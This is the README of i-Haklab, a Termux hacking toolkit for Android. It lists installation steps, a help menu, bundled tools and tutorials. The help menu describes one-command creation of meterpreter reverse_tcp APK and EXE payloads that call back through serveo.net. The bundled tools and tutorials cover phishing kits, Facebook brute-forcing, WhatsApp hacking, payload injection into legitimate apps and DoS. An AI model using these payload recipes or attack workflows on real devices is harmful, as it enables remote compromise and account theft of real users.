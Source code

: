 # i-Haklab v.1.0 2019 by @Ivam3
	DISCLAIMER
Please do not use in military or secret service organizations, or for illegal purposes.
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

To get help about how to use it join to irc chat in i-Haklab command
To report some issues join to https://t.me/Ivam3byCinderella


i-Haklab Is a hacking laboratory that contains open source tools recommended by Ivam3. It use oh my fish insteractive shell, to get help about its use going to >> https://fishshell.com/docs/current/tutorial.html.

:::::::::::::::::: Processes during installation :::::::::::::::::::

i-haklab will ......

- check if your android device has some root, if so, it will install the sudo command.
- check if termux has permission to access the external memory, thus, in there it will create a directory called homeroot and there will install the tools and/or frameworks. otherwise they will be installed in the directory /data/data/com.termux/files/home. By the way, in case of Termux is installed in a second partition of your external memory those will be in /data/sdext2/data/com.termux/files/home.
- Once the installation of the tools and/or frameworks is finished, i-Haklab will ask you to configure your password, security question and answer, which will be necessary to start session in i-Haklab.
- i-Haklab has the "lock" command which will block the screen and it will only be unlocked with said password or answering the security question. It is worth mentioning that these access codes are encrypted for your security
- Coupled with it i-Haklab has an automation command for updating, installing and uninstalling tools and books, and executing hacking processes under a single command. under the command we will find the weechat argument, with which you can join the official IRC Ivam3byCinderella ((Internet Relay Chat (IRC) is an application layer protocol that facilitates communication in the form of text. The chat process works on a client/server networking model)).

Just execute from the command line $ i-Haklab --help to see the menu of use.

:::::::::::::::::: i-Haklab help menu :::::::::::::::::::
Syntax: i-Haklab [-arg-] [-option-]

Arguments  |    Options     |    Description
╰─help─────➤────────────────➤ Show this help menu
╰─list─────➤────────────────➤ List all available tools/frameworks
╰─show─────➤──tools/books───➤ Show tools details and books availables
|   ╰──────➤──tutorials/QG──➤ Show tutorials and Quick Guides availables
╰─install──➤───tool/book────➤ Install tools or books
╰─remove───➤─────tool───────➤ Remove tools
╰─weechat──➤────────────────➤ Connect with irc Ivam3byCinderella chat
╰─update───➤────────────────➤ Update i-Haklab
╰─upgrade──➤────────────────➤ upgrade i-Haklab by installing/upgrading tools
╰─version──➤────────────────➤ Show i-Haklab version installed
|       |        |
[--] Automatitation Arguments [--]
Arguments  |    options     |    Description
╰─handler──➤──file.rc name──➤ Start handler on msfconsole with previous setting
╰───apk────➤──inlan/outlan──➤ Create a coded payload apk with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=android/meterpreter/reverse_tcp apk=inlan.apk
|                     ╰─────➤ LPORT=48263 LHOST=serveo.net apk=outlan.apk
|                             Payload=android/meterpreter/reverse_tcp
╰─paylink──➤─pc/nexam/soa5──➤ Create a link payload with handler
|             ╰───|────|────➤ For targets [0]generic, [1]windows, [2]macOS and [3]linux
|                 |    |      example: i-Haklab paylink pc 2
|                 ╰────|────➤ For targets [0]nexxus and [29]samsung
|                      |      example: i-Haklab paylink nexam 29
|                      ╰────➤ For android operative system equal at version 5 to down
╰──payexe──➤──inlan/outlan──➤ Create a coded payload .exe with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=windows/meterpreter/reverse_tcp file=inlan.exe
|                     ╰─────➤ LPORT=48263 Payload=windows/meterpreter/reverse_tcp
|                             LHOST=serveo.net apk=outlan.apk
╰─serveo───➤────────────────➤ Start a SSH client to request TCP port forwarding from the server and proxy
|    ╰─────➤────domain──────➤ Start a SSH client to request port forwarding with especific dns
**** If you want to suggest some command do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Tools or frameworks available in i-Haklab ::::::::::::::
01: D-TECT
02: DoS-A-Tool
03: ExiF
05: binchecker
06: blackbox
07: converter
08: adminpanel
09: wpscan
10: aircrack-ng
11: androbugs
12: beef
13: bettercap
14: cc-genpro
15: java
16: credmap
17: crunch
18: embed
19: evilurl
20: fbbrute
21: fbi
22: fuzzdb
23: hakku
24: hatcloud
25: hunner
26: ipgeolocation
27: metasploit
28: ngrok
29: nikto
30: pasterm
31: youtube-dl
32: php-server
33: pybelt
34: recon-ng
35: recondog
36: redhawk
37: routersploit
38: seeker
39: shellphish
40: shellsploit
41: spotichk
42: sqliv
43: sqlmap
44: ssh-server
45: theharvester
46: hydra
47: tor
**** If you want to suggest some tool, do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Games available in i-Haklab ::::::::::::::
01: 2048
02: angband
03: brogue     
04: curseofwar
05: gnugo
06: greed
07: mathomatic
08: moon-buggy
09: snakegame
10: solitaire
**** If you want to suggest some game do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Books available in i-Haklab ::::::::::::::
01: Aprende html
02: Chema alonso coleccion
03: Comandos basicos linux
04: Cracking sin secretos
05: Conviertete en hacker by incube2
06: Ethical hacking
07: Hacking con python
08: Hacking etico 101
09: Hacking mexico seguridadofensiva nv.1
10: Hacking the hacker
11: Manual hacking dispositivos moviles
12: Metasploit para pentesters
13: My sql
14: Nmap by computaxion
15: Programa en C
16: Programa en C++
17: Programa en bash
18: Programacion en perl
19: Programacion en php
20: Programacion en ruby
21: Python para todos
**** If you want to suggest some book do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


:::::::::::::: Tutorials available in i-Haklab ::::::::::::::
01: TERMUX TIPS Cap.1
02: TERMUX TIPS Cap.2
03: TERMUX TIPS Cap.3
04: TERMUX TIPS Cap.4
05: TERMUX: Aprendamos como ejecutar comandos
06: TERMUX: Combinación de comandos
07: TERMUX: Instalando el comando Sudo
08: TERMUX: Modifica y/o personaliza el banner de iniciO
09: Termux - Creando contraseña de acceso (logging banner)
10: TERMUX: Youtube-DL
11: METASPLOIT: Instalación
12: METASPLOIT: RuGiR
13: METASPLOIT: Hacking Android inLAN
14: METASPLOIT: Persistencia en Android
15: METASPLOIT: Hacking Android outLAN
16: METASPLOIT: Hackeado Android inLAN con paylink
17: METASPLOIT: EMBED Inyectando payload en app legítima inLAN
18: METASPLOIT: EMBED Inyectando payload en app legítima outLAN
19: Dos-A-TooL - Ataque distribuido de denegación de servicio
20: METASPLOIT - Ataque distribuido de denegación de servicio
21: Kali-nethunter: Como instalarlo(no root)
22: HACKING WHATSAPP 1ra parte
23: HACKING WHATSAPP 2da parte
24: SETOOLKIT - Instalacion
25: PHISHING : Weeman Framework(1ra parte)- Instalación
26: PHISHING : Weeman Framework(2da parte)- Hacking Facebook inLAN
27: PHISHING : Weeman Framework(3ra parte) - Hacking Facebook - Asignacion de dominio(DNS)
28: NGROK : Instalacion
29: PHISHING : WEEMAN (4ta parte) - Hacking Facebook outLAN
30: PHISHING: Shellphish Framework - Hacking redes sociales
31: CRUNCH - Crear diccionearios para ataques de fuerza bruta
32: FBBRUTE - Ataque de fuerza bruta a FACEBOOK
33: FBI - Como sustraer información de un Facebook Hackeado
34: IPGEOLOCATION: Geolocalizacion de IP's en Google Maps
35: ExiF - Extrayendo Meta Datos
36: BETTERCAP - Instalación
37: i-Haklab - TUTORIAL
38: CURSO DE PROGRAMACIÓN EN BASH 1ra Parte
39: CURSO DE PROGRAMACIÓN EN BASH 2da Parte
40: CURSO DE PROGRAMACIÓN EN BASH 3ra Parte
**** If you want to suggest some tutorial do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot



****   _           _        _ _       _   _
***   (_)_ __  ___| |_ __ _| | | __ _| |_(_) ___  _ __
***  | | '_ \/ __| __/ _` | | |/ _` | __| |/ _ \| '_ \
***  | | | | \__ \ || (_| | | | (_| | |_| | (_) | | | |
***  |_|_| |_|___/\__\__,_|_|_|\__,_|\__|_|\___/|_| |_|

- There is to ways :
		NUMBER 1 : with installation script
- download the script Ivam3-Haklab in >>
- move it to Home directory and go there
- execute it by command >> $ bash Ivam3-Haklab

		NUMBER 2 : Cloning
- $ git clone https://github.com/ivam3/i-Haklab.git $HOME/i-Haklab
- $ cd $HOME/i-Haklab
- $ chmod 711 -R *
- $ bash setup

*** HAVE A NICE HACKING DAY!!!!
# 						@Ivam3
